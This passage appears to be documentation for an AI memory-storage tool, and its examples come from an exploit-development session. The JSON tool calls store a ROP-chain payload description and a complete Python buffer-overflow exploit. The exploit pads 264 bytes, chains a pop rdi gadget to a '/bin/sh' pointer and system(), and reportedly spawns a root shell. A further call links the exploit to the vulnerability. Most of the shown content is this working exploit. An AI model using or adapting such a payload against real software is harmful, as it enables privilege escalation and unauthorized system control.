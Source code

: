 ### Store Payload Development

Document payload construction:

```json
{
  "name": "store_memory",
  "arguments": {
    "session_id": "session_789",
    "title": "Shell Spawning Payload",
    "content": "Payload structure:\n1. Padding: 264 bytes\n2. ROP gadget: pop rdi; ret\n3. Argument: pointer to '/bin/sh'\n4. ROP gadget: system() address\n\nSuccessfully spawns /bin/sh with EUID 0",
    "category": "payload",
    "priority": 9,
    "confidence": 0.9,
    "tags": "[\"payload\", \"shell\", \"rop\", \"privilege-escalation\"]",
    "source": "exploit-development"
  }
}
```

### Store Working Exploit

Document the complete working exploit:

```json
{
  "name": "store_memory",
  "arguments": {
    "session_id": "session_789",
    "title": "Complete Buffer Overflow Exploit",
    "content": "#!/usr/bin/env python3\nimport struct\n\n# Addresses\nsystem_addr = 0x4004e0\npop_rdi = 0x4006a3\nbin_sh_str = 0x600890\n\n# Build payload\npayload = b'A' * 264  # Padding to EIP\npayload += struct.pack('<Q', pop_rdi)\npayload += struct.pack('<Q', bin_sh_str)\npayload += struct.pack('<Q', system_addr)\n\n# Send payload\nwith open('exploit_input', 'wb') as f:\n    f.write(payload)",
    "category": "exploit",
    "priority": 10,
    "confidence": 0.95,
    "tags": "[\"exploit\", \"complete\", \"buffer-overflow\", \"rop\", \"working\"]",
    "source": "exploit-development"
  }
}
```

## Relationship Mapping

### Link Vulnerability to Exploit

```json
{
  "name": "create_relationship",
  "arguments": {
    "source_memory_id": "exploit_complete",
    "target_memory_id": "vuln_buffer_overflow",
    "relationship_type": "exploits",
    "strength": 1.0,
    "description": "Complete exploit for buffer overflow vulnerability"
  }
}
```
